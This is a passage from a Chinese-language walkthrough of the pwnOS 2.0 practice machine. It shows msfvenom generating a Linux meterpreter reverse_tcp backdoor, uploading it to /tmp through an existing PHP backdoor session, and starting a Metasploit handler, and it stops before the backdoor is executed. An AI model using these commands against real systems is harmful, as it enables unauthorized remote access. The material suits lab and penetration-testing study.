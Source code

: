 
查看权限，是低权限机器。又查看设备信息，为后一步攻击做准备，比如提权之类的：

![查看信息](/img/game/pwnos2.0/1511838033368.png)

**基于PHP的payload有时会出现问题，会话可能中断。就直接上传Linux的payload**

使用msfvenom生成`reverse_tcp`的payload：

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.165 LPORT=5000 > backdoor
```

利用php后门上传反向连接的payload：

```bash
meterpreter > upload /root/backdoor /tmp
[*] uploading  : /root/backdoor -> /tmp
[*] uploaded   : /root/backdoor -> /tmp/backdoor

meterpreter > background
[*] Backgrounding session 1...
```

使用msf监听：

```bash
msf post(system_session) > use exploit/multi/handler 

msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp

msf exploit(handler) > show options

msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 10.10.10.134:5000 
[*] Starting the payload handler...
```

回到之前的PHP会话,执行新的linux后门：

